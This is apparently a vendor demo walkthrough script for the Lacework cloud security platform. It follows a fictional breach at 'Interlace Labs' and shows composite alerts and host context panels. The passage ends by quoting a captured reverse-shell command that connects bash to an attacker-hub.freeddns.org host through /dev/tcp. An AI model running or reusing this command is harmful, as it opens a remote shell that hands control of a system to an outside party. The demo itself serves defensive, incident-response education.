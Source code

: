 ## Walkthrough

Alright, we’re going to walk you through a demo and storyline that we documented as part of actual **attack scenarios** we’ve observed in **our customers' environments**. The demo itself we’ve loving titled **wrath of khon traktour** and it outlines a compromise scenario demonstrating why CSPM itself isn’t enough and that you need both threat and risk context from your CNAPP to effectively secure your cloud environment. 

You’ll see some of the innovations released in the last year including:

* **composite alerts**
* **alert context panels**
* **attack path analysis** and **security graph** 

We’ve got a lot to cover, let’s get started.

In our scenario, we have a fictitious company, Interlace Labs. Interlace Labs recently brought onboard a new contractor to assist with the development efforts for a groundbreaking project. The contractor, tasked with delivering a key demo later in the week, was given access to an compute instance and an cloudsql (Relational Database Service) database. After several hours of work, he had a running application and, satisfied with his day's work, he logged out of the compute instance. 

However, a few hours later, the security team at Interlace Labs receives multiple high and critical event notifications from Lacework, indicating suspicious activity within their cloud account. We can see these here in the Alerts Dashboard.


### Reactive Threat Response

_Potentially Compromised Host_

The incident response team starts with a review of this Composite alert for Potentially Compromised Host. 

> next tab

Composite Alerts provide the high level context for multiple related events. The Lacework platform is able to deliver these low-volume, high-fidelity, high-context alerts using a combination of anomaly detection and risk context, coupled with threat intelligence from our Lacework Labs team. 

It’s a change of mindset from responding to alerts in classic rules based tools where the team would be flooded with hundreds of alerts daily, missing important events like the ones we’ll walk through here. 

> open host context panel

First, let's open up the context panel for this host so we're able to see the risk context associated with this threat. We can see that this machine is** exposed to the internet** and has been identified and has **four critical vulnerabilities**. We’ll review the vulnerabilities in a minute but first let’s review the details of the alert.

> scroll to bottom highlight k8s

Scrolling through the supporting facts, we see that local system enumeration has taken place and we also take note that **access to locally stored cloud credentials was detected**.  

As we continue through the summarized event context, under associated processes we find a call **to setup a reverse shell**, used by **attackers to establish command and control on their target host**: /bin/sh -c /bin/bash -c "TASK=iam2cloudsql /bin/bash -i >& /dev/tcp/log4jc-attacker-904d40a6.attacker-hub.freeddns.org/4444 0>&1 
